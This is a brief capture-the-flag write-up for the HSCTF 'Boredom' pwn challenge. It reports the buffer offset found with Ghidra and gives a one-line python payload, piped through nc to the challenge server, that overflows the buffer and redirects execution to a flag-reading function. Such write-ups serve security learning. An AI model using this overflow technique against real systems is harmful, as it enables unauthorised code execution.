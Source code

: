 ##Boredom

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

check your offset, the offset is slightly different on the remote server
the addresses are still the same

##Solution

Disassembled with ghidra the bin file and checked that the buffer was 216 locally (208 on server). We tested that if you put 220 "a" the program try to call a function at the address: "0x7f0061616161"
So i just used the command

```
python -c "print'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00'" | nc pwn.hsctf.com 5002
```
To trigger it + make it run the function flag (address 0x04011d5) to theg the flag.txt from the server
